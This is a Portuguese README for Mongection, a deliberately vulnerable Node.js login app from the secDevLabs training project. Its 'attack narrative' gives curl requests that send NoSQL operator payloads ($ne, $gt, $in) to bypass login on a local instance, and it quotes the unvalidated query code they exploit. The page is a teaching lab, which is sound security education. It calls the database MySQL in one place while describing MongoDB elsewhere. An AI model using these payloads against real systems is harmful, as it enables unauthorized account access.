


# Mongection

[Acessar conteúdo em Português](README_PT_BR.md)

<p align="center"></p>

Mongection é uma aplicação web NodeJS que usa uma API e um front-end simples para simular uma página de login. Possui rotas `/register` e `/login` que, ao se comunicar com um banco de dados MySQL, permitem que os usuários se registrem e entrem em um sistema genérico. 


## Index

- [Definição](#o-que-é-injeção)
- [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
- [Narrativa de ataque](#narrativa-de-ataque)
- [Objetivos](#proteger-este-aplicativo)
- [Soluções](#pr-soluções)
- [Contribuição](#contribuição)

## O que é injeção?

Falhas de injeção, como injeção de SQL, NoSQL, SO e LDAP, ocorrem quando dados não confiáveis ​​são enviados a um interpretador como parte de um comando ou consulta. Os dados hostis do invasor podem induzir o intérprete a executar comandos não intencionais ou acessar dados sem a devida autorização.

O principal objetivo deste projeto é discutir como as vulnerabilidades de **SQL Injection** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do **secDevLabs** sobre como mitigar essas falhas.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a3/mongection
```

```sh
make install
```

Depois é só visitar  [localhost:10001][app], conforme exemplificado abaixo:



## Conheça o app 💉

Para entender corretamente como esse aplicativo funciona, você pode seguir estes passos simples: 

- Registre um novo usuário via front-end.
- Faça login como este usuário via front-end.

- Registre outro usuário agora usando a linha de comando:

```sh
curl -X POST http://localhost:10001/register -H "Content-Type: application/json" --data '{"name":"bob", "email":"bob@example.com", "password":"bobisboss"}'
```

- Faça login como este segundo usuário agora usando a linha de comando:

```sh
curl -X POST http://localhost:10001/login -H "Content-Type: application/json" --data '{"email":"bob@example.com", "password":"bobisboss"}'
```

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### A falta de validação de entrada permite a injeção de consultas NoSQL

Depois de revisar [db.js](https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2021-apps/a3/mongection/src/db.js) oi possível ver que algumas entradas de usuários são concatenadas com consultas NoSQL, conforme mostrado nos trechos de código a seguir:

```js
const existUser = await User.findOne({ email: email });
```

```js
const existsUser = await User.find({
  $and: [{ email: email }, { password: password }],
});
```

Como nenhuma validação está sendo feita nessas variáveis, as injeções de SQL podem ser executadas com sucesso no banco de dados. Usando a interface web, podemos enviar algumas informações, usando o formulário da "página de inspeção", para entender melhor como ela se comunica com a API.

#### 🔥

Um invasor pode criar uma consulta maliciosa como `{"$ne":""}` e passá-la para os campos de email e senha. Como `$ne` é a condição diferente no MongoDB, isso está consultando todas as entradas na coleção de logins em que `username` e `password` não são iguais a "" (vazio).

Usando `curl` na interface CLI, a carga maliciosa pode ser enviada conforme mostrado abaixo:

```sh
curl -X 'POST' 'http://localhost:10001/login' -H "Content-Type: application/json" --data '{"email": {"$ne":""}, "password": {"$ne":""}}'
```

<p  align="center"></p>

O aplicativo retornará o primeiro usuário que o MongoDB encontrar com um "Hello, Welcome Again!" mensagem, demonstrando que a autenticação foi ignorada. Deve haver pelo menos um usuário já cadastrado no banco de dados para receber esta mensagem.

O mesmo resultado poderia ser alcançado se o invasor enviasse uma carga útil usando a diretiva `$gt` (maior que). A consulta a seguir buscará entradas com campos `username` e `password` maiores que "" (vazio).

```sh
curl -X 'POST' 'http://localhost:10001/login' -H "Content-Type: application/json" --data '{"email": {"$gt": ""}, "password": {"$gt": ""}}'
```

<p  align="center"></p>

Outra possível carga maliciosa poderia usar a diretiva `$in`. A consulta a seguir irá percorrer cada elemento do array fornecido e tentará cada valor listado para o campo `username`. Além disso, `{"$gt":""}` garantirá que o campo `password` não seja avaliado.

```sh
curl -X 'POST' 'http://localhost:10001/login' -H "Content-Type: application/json" --data '{"email": {"$in":["admin@example.com", "root@example", "ana@example.com", "bob"]}, "password": {"$gt":""}}'
```

<p  align="center"></p>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Execute consultas NoSQL no banco de dados.

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira  [these pull requests](https://github.com/globocom/secDevLabs/pulls?utf8=%E2%9C%93&q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Mongection%22)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10001
[secdevlabs]: https://github.com/globocom/secDevLabs
